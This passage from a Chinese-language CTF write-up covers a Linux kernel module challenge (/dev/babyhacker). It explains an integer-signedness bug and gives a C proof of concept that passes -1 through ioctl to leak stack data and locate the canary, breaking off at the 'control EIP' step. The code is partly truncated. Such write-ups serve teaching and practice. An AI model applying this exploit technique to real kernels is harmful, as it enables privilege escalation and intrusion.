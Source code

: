 当我们设置参数时，程序会将我们的输入转为有符号整数进行上限检查，而没有进行下限检查，这会导致整数溢出的发生。也就是说，当我们输入的`buffersize`为-1时，我们事实上可以对栈上写入一个极大值。

#### <a class="reference-link" name="%E6%B3%84%E9%9C%B2%E6%A0%88%E4%B8%8A%E6%95%B0%E6%8D%AE"></a>泄露栈上数据

由于程序开启了`KASLR`保护，因此我们需要从栈上泄露一些数据，我们构造如下PoC：

```
#include &lt;sys/types.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;sys/wait.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;stdint.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
#include &lt;stropts.h&gt;
uint64_t u64(char * s){
    uint64_t result = 0;
    for (int i = 7 ; i &gt;=0 ;i--){
        result = (result &lt;&lt; 8) | (0x00000000000000ff &amp; s[i]);
    }
    return result;
}
char leak_value[0x1000];
    unsigned long Send_value[0x1000];
    int fd1 = open("/dev/babyhacker", O_RDONLY);

    ioctl(fd1, 0x30000, -1);
    ioctl(fd1, 0x30002, leak_value);

    for(int i = 0 ; i * 8 &lt; 0x1000 ; i++ ){
        uint64_t tmp = u64(&amp;leak_value[i * 8]);
        printf("naddress %d: %pn",i * 8 ,tmp);
    }
    return 0;
}
```

**⚠️：我们在打开一个字符设备时一定要保证模式正确，例如本题的设备没有为我们提供`Write`交互参数，那么我们就应该以只读方式打开此设备，否则会引发不可预知的错误！**

根据我们的判断，程序应该会在0x140的偏移处存储`Canary`的值

[![](./img/201454/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-03-19-145257.png)

我们在结果中也确实读到了相应的值

[![](./img/201454/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-03-19-145353.png)

#### <a class="reference-link" name="%E6%8E%A7%E5%88%B6EIP"></a>控制EIP
